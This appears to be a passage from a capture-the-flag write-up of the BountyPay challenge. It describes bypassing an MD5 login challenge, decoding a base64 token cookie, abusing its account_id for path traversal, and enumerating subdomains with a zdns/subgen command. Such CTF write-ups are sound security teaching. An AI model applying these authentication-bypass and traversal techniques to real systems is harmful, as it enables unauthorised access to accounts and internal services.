 ```http
username=brian.oliver&password=V7h0inzX&challenge=f72a37dc583456150a13bd8b3b19433d&challenge_answer=letmein
```
...I noticed that there was a `challenge` parameter that looked like an MD5 hash.
To log in successfully, I tried to encode as MD5 the text I wrote (in my case, the word `letmein`) and then I replaced the `challenge` parameter with it (`0d107d09f5bbe40cade3de5c71e9e9b7`)...it worked!

The BountyPay dashboard
=====================
At this point, I saw this dashboard:
{F852144}
The load transactions button was useless: I couldn't get any info no matter what month/year I selected.
After a further look, i noticed that the `token` cookie for that webpage was actually a base64 encoded string:
```http
GET / HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://bountypay.h1ctf.com/
Connection: close
Cookie: token=eyJhY2NvdW50X2lkIjoiRjhnSGlxU2RwSyIsImhhc2giOiJkZTIzNWJmZmQyM2RmNjk5NWFkNGUwOTMwYmFhYzFhMiJ9
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
When I decoded it, I got a JSON string:
```json
{"account_id":"F8gHiqSdpK","hash":"de235bffd23df6995ad4e0930baac1a2"}
```
After playing a bit more with this, I realized that by leveraging the account_id it was possible to achieve a path traversal. 

A rabbit hole
=====================
Now that I had a path traversal, what could I do with it?
I literally had no idea, so I tried to brute-force some subdomains.
To do so, I used [zdns](https://github.com/zmap/zdns), [subgen](https://github.com/pry0cc/subgen) and [shubs-subdomains.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/DNS/shubs-subdomains.txt) :
```bash
cat ~/SecLists/Discovery/DNS/shubs-subdomains.txt | subgen -d bountypay.h1ctf.com | zdns A --name-servers 1.1.1.1 --threads 500 | jq -r "select(.data.answers[0].name) | .name" 
bountypay.h1ctf.com
app.bountypay.h1ctf.com
staff.bountypay.h1ctf.com
www.bountypay.h1ctf.com
api.bountypay.h1ctf.com
software.bountypay.h1ctf.com
```
Do you see that `software.bountypay.h1ctf.com`? That was new to me as well...I tried to open it but I was getting a `401 Unauthorized`.
What if I opened it by leveraging the path traversal I found before?
That worked, and I could see the HTML of that webpage in the response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Mon, 01 Jun 2020 20:28:45 GMT
Content-Type: application/json
Connection: close
Content-Length: 1605
```
